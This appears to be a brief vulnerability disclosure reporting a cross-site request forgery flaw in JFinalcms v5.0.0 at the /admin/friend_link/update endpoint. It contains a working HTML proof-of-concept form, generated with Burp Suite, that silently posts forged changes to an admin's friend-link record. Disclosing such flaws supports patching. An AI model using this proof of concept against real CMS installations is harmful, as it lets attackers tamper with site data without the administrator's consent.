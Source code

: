 Author：MengYang

target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/friend_link/update
![图片](https://github.com/cui2shark/cms/assets/52313275/8ed0291f-32af-4b2e-ba51-9b8a117ea1c3)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/14e122a5-e249-489f-8d1c-8394c337e81a)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/friend_link/update" method="POST">
      <input type="hidden" name="id" value="3" />
      <input type="hidden" name="gid" value="1" />
      <input type="hidden" name="name" value="cs123" />
      <input type="hidden" name="logo" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="url" value="cs" />
      <input type="hidden" name="sort" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/07e36fe8-babd-4123-bf90-7d12ce9085d3)
